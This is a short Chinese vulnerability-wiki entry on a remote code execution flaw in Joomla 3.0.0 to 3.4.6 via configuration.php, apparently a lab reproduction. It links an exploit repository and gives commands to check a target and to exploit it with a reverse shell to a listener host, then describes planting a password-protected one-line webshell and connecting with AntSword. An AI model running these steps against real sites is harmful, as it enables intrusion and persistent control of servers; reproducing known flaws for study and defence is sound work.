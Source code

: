 Joomla 3.4.6 - \'configuration.php\' 远程代码执行
=================================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

<https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution>

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](/Users/aresx/Documents/VulWiki/.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId26.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](/Users/aresx/Documents/VulWiki/.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId27.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马
![](/Users/aresx/Documents/VulWiki/.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId28.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

image
